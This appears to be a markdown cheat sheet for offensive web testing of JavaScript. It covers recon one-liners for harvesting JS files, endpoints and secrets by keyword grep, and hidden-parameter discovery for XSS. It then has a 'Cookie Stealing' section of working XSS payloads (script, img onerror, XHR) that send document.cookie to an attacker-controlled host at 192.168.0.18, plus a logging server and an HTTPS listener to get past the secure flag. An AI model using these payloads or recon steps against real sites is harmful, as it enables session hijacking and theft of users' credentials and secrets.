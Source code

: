 # JavaScript
## Extract JavaScript Files
```bash
waybackurls target.com | grep "\\.js" | xargs -n1 -I@ curl -k @ | tee -a content.txt

```

## Find JavaScript Files by gau and httpx

* [gau](https://github.com/lc/gau)
* [httpx](https://github.com/projectdiscovery/httpx)
```bash
echo target.com | gau | grep '\.js$' | httpx -status-code -mc 200 -content-type | grep 'application/javascript'

```


## Find and Extract JS file
```bash
subfinder -d target.com | httpx -mc 200 | tee subdomains.txt && cat subdomains.txt | waybackurls | httpx -mc 200 | grep .js | tee js.txt

```
> In summary, this command sequence combines various tools (subfinder, httpx, waybackurls, and grep) to find subdomains, retrieve historical URLs, filter JavaScript files, and save the results in separate files (subdomains.txt and js.txt).



## Extract API endpoints from javascript files
```bash
cat file.js | grep -aoP "(?<=(\"|\'|\`))\/[a-zA-Z0-9_?&=\/\-\#\.]*(?=(\"|\'|\`))" | sort -u

```

## Searching in JS files
```bash
grep -r -E "aws_access_key|aws_secret_key|api key|passwd|pwd|heroku|slack|firebase|swagger|aws_secret_key|aws key|password|ftp password|jdbc|db|sql|secret jet|config|admin|pwd|json|gcp|htaccess|.env|ssh key|.git|access key|secret token|oauth_token|oauth_token_secret" /path/to/directory/*.js

```
> Make sure to replace `/path/to/directory` with the actual path to the directory where your .js files are located. The command will recursively search for the specified keywords in all .js files within that directory.



## Find hidden GET parameters in javascript files
Here’s an interesting tip for finding hidden parameters by analyzing javascript files:

1. Scour javascript files for variable names, e.g.:
  `var test = "xxx"`

2. Try each of them as a GET parameter to uncover hidden parameters, e.g.:
  `https://example.com/?test=”xsstest`

**This often results in XSS!**
```bash
assetfinder target.com | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"; done

```


## Cookie Stealing
(Note: `HttpOnly` should not be enabled/present in cookie header)

**1. Classic way**
```javascript
<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>

```
* **<img> Tag and Without the Infinite Loop**

This one works and will only steal the cookie once.
```javascript
<img src=x onerror="this.src='http://192.168.0.18:8888/?'+document.cookie; this.removeAttribute('onerror');">

```
* **<img> Tag Instead of <script> Tags**
Don't use this one! It works but calls `onerror()` in a loop, filling up your stolen cookie log.
```javascript
<img src=x onerror=this.src='http://192.168.0.18:8888/?'+document.cookie;>

```

* ***Run the Cookie Stealer Python Script***

You'll need a place to capture the stolen cookies. [lnxg33k](https://github.com/lnxg33k) has written an excellent Python script called [XSS-cookie-stealer.py](https://github.com/Mehdi0x90/Scripts/blob/main/Python/XSS-cookie-stealer.py). Run it with Python 2.6 or higher. It is just an HTTP server which logs each inbound HTTP connection and all the cookies contained in that connection.
```bash
# Run script
python XSS-cookie-stealer.py

# The resulting output, at minimum, will be this
Started http server


```

**2. Bypassing secure flag protection**
* Generating certificate
```bash
openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes

```
* Creating a HTTPS server
```python
#!/usr/bin/python3
import http.server, ssl
server_address = ('0.0.0.0', 443)
httpd = http.server.HTTPServer(server_address, http.server.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem')
"""ssl_version=ssl.PROTOCOL_TLSv1_2)
"""
httpd.serve_forever()

```
* Via XHR
```javascript
var xhr=new XMLHttpRequest(); 
xhr.open("GET", "https://192.168.0.18/?"+document.cookie, true); 
xhr.send();

```




